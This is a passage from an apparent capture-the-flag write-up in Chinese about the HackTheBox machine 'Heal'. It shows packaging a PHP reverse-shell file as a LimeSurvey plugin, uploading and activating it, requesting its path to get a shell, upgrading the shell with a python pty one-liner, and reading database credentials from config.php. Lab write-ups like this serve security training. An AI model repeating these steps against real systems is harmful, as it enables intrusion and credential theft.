 
然后进行打包

```
❯ zip hyh_zip config.xml php-rev.php
```

上传并且激活插件

![](./images/image-84.png)

然后访问`http://take-survey.heal.htb/upload/plugins/hyh_hacker/php-rev.php`路径即可反弹`shell`

![](./images/image-85.png)

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

在`/var/www/limesurvey/application/config/config.php`中获取到数据库的用户名和密码

![](./images/image-86.png)
